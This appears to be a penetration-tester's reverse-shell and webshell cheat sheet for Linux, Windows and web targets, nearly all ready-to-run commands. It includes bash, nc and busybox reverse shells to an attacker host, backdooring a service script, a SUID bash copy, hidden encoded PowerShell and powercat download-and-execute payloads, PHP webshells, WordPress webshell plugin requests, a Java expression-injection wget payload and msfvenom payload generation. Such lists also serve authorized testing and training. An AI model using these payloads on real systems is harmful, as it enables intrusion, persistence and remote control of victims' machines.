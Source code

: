 # *Linux*
### bash reverse
```shell
/bin/bash -c "bash -i >& /dev/tcp/KALI_IP/LPORT 0>&1"
```
### busybox reverse
```shell
busybox nc KALI_IP 443 -e sh

# https://eins.li/posts/oscp-secret-sauce/
```
### nc
```shell
/path/nc KALI_IP LPORT -e /bin/bash
```
## .sh script reverse
```shell
# bash
echo "bash -i >& /dev/tcp/KALI_IP/443 0>&" >> /path/to/service.sh
chmod +x /path/to/service.sh

# nc
echo >> reverse.sh
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1 | nc KALI_IP 443 >/tmp/f" >> /path/to/service.sh
chmod +x /path/to/service.sh
```
## copy bash w/ suid
```shell
cp /bin/bash /tmp && chmod +s /tmp/bash
```

# ***Windows***
## powershell encoded
```shell
# 1 KALI
python3 ps_encode.py


# 2 TARGET
powershell.exe -nop -w hidden -enc encoded_payload...
```
## powercat encoded
```shell
# 1 KALI
python3 cat_encode.py


# 2 TARGET
powershell.exe -nop -w hidden -enc encoded_payload...
```
## powercat manually typed
```shell
# 1 Payload
IEX(New-Object System.Net.WebClient).DownloadString('http://KALI_IP/resources/powercat.ps1');powercat -c KALI_IP -p 443 -e powershell


# 2 Use as follows
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://KALI_IP/resources/powercat.ps1');powercat -c KALI_IP -p 443 -e powershell"
```
## nc.exe
```shell
C:\PATH\nc.exe KALI_IP LPORT -e powershell
```

# ***Web***
## php
### bash reverse
```php
<?php exec("/bin/bash -c bash -i >& /dev/tcp/KALI_IP/443 0>&1"); ?>
```
### simple webshell
```php
<?php echo system($_GET['cmd']); ?>
<?php echo passthru($_GET['cmd']); ?>
```
### simple webshell 2
```php
<?php
if(isset($_REQUEST['cmd'])){
    echo "<pre>";
    $cmd = ($_REQUEST['cmd']);
    system($cmd);
    echo "</pre>";
    die;
    }
?>
# located at /usr/share/webshells/php/simple-backdoor.php
```
### sincek reverse
```shell
# https://github.com/ivan-sincek/php-reverse-shell
```
### wordpress plugin
```shell
# POST
curl -X POST `tip`:`WPORT`/wordpress/wp-content/plugins/wp_webshell/wp_webshell.php --data 'action=exec&cmd=id'

# GET (or use browser)
curl `tip`:`WPORT`/wordpress/wp-content/plugins/wp_webshell/wp_webshell.php?action=exec&cmd=id

# https://github.com/p0dalirius/Wordpress-webshell-plugin
```
### wordpress plugin 2
```shell
https://github.com/wetw0rk/malicious-wordpress-plugin
```
## asp
### webshell
```shell
https://gitbook.seguranca-informatica.pt/cheat-sheet-1/web/webshell
```

## java
### runtime exec
```shell
${script:javascript:java.lang.Runtime.getRuntime().exec("wget http://KALI_IP/reverse -O /tmp/reverse")}
```

# *MSFVenom*
Check [Infinite Logins](https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/)for help with below 4

## windows reverse
```shell
msfvenom -p windows/shell_reverse_tcp lhost=`mip` lport=443 -f exe > reverse.exe
```

## linux reverse
```shell
msfvenom -p linux/x64/shell_reverse_tcp lhost=`mip` lport=443 -f elf > reverse.elf
```
## php reverse
```shell
msfvenom -p php/reverse_php lhost=`mip` lport=443 -f raw > reverse.php
```
## asp reverse
```shell
msfvenom -p windows/shell/reverse_tcp lhost=`mip` lport=443 -f asp > reverse.asp
```

# ***upgrade shell***
```shell
# 1 TARGET
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
^z


# 2 KALI
stty raw -echo;fg
```